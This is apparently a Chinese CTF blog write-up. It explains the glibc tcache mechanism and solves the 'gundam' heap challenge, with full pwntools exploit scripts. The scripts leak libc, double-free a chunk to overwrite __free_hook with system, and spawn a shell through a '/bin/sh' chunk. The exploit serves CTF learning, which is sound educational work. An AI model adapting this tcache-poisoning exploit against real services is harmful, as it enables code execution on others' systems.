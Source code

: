 ```yaml
---
layout:     post
title:      Tcache机制介绍
subtitle:    tcache
date:       2019-1-15
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> tcache介绍



libc2.26之后增加了tcache机制

这是大佬写的介绍，我自己还有测试 T_T

http://p4nda.top/2018/03/20/tcache/

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/tcache_attack/

https://www.anquanke.com/post/id/104760

下面的题目是一道具体的tcache利用。

# gundam题目解析

![](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1547557808506.png)

保护全开

首先运行题目，

```shell
root@VM-0-13-ubuntu:/home/ubuntu/hitbctf/gundam # ./gundam 

1 . Build a gundam 
2 . Visit gundams 
3 . Destory a gundam
4 . Blow up the factory
5 . Exit

Your choice : 
```

main函数如图，

![1547557851256](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1547557854305.png)

进行测试

![1547699993732](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/7699996599.png)

![1547699952444](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/5C1547699958781.png)

而destoy函数如图

![1547702466267](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/2468327.png)

他并没有把结构体给free掉，

![1547703262626](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/262626.png)

而我们的blow up函数，是用来free上边的块的

![1547734299758](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/734299758.png)

首先获得libc的地址

这个不管libc的版本是否大于2.26都可以运行。

```python
#coding:utf-8
from pwn import *
debug = 1

if debug:
        p = process('./gundam')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        gdb.attach(p)
else:
        p = remote('47.75.37.114', 9999)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'
        #libc = ELF('./libc-2.23.so')
        #off = 0x001b0000

def build(name,type):
        p.recvuntil('choice :')
        p.sendline('1')
        p.recvuntil('The name of gundam :')
        p.send(name)
        p.recvuntil('The type of the gundam :')
        p.sendline(str(type))
def visit():
        p.recvuntil('choice :')
        p.sendline('2')
def destroy(index):
        p.recvuntil('choice :')
        p.sendline('3')
        p.recvuntil('Which gundam do you want to Destory:')
        p.sendline(str(index))
def blow():
        p.recvuntil('choice :')
        p.sendline('4')
for i in range(0,9):
        build('p4nda',1)
for i in range(0,9):
        destroy(i)
blow()
for i in range(0,7):
        build('a'*8,1)
build('a'*8,1)
build('a'*8,1)
visit()
p.recvuntil('Gundam[7] :aaaaaaaa')
libc.address = u64(p.recv(6).ljust(8,'\0')) - 88 - 0x18 - libc.symbols['__malloc_hook']
print "libc - >"+hex(libc.address)
```



完整的脚本如图，如果libc<2.26则会报double free的错误。

 ```python
#coding:utf-8
from pwn import *
debug = 1

if debug:
        p = process('./gundam')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        gdb.attach(p)

else:
        p = remote('47.75.37.114', 9999)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'
        #libc = ELF('./libc-2.23.so')
        #off = 0x001b0000

def build(name,type):
        p.recvuntil('choice :')
        p.sendline('1')
        p.recvuntil('The name of gundam :')
        p.send(name)
        p.recvuntil('The type of the gundam :')
        p.sendline(str(type))
def visit():
        p.recvuntil('choice :')
        p.sendline('2')
def destroy(index):
        p.recvuntil('choice :')
        p.sendline('3')
        p.recvuntil('Which gundam do you want to Destory:')
        p.sendline(str(index))
def blow():
        p.recvuntil('choice :')
        p.sendline('4')

for i in range(0,9):
        build('p4nda',1)
for i in range(0,9):
        destroy(i)
blow()
for i in range(0,7):
        build('a'*8,1)
build('a'*8,1)
build('a'*8,1)
visit()
p.recvuntil('Gundam[7] :aaaaaaaa')
libc.address = u64(p.recv(6).ljust(8,'\0')) - 88 - 0x18 - libc.symbols['__malloc_hook']
print "libc - >"+hex(libc.address)
print '[*] system:',hex(libc.symbols['system'])
for i in range(0,8):
        destroy(i)
blow()
build('p4nda',1) #0
build('/bin/sh\0',1) #0 1
build('p4nda',1) #0
destroy(0)
destroy(0)
pause()

build(p64(libc.symbols['__free_hook']),1)# 0 1 2
pause()
build('AAAAAAAA',1)
pause()
build(p64(libc.symbols['system']),1)
pause()
destroy(1)

p.interactive()
 ```

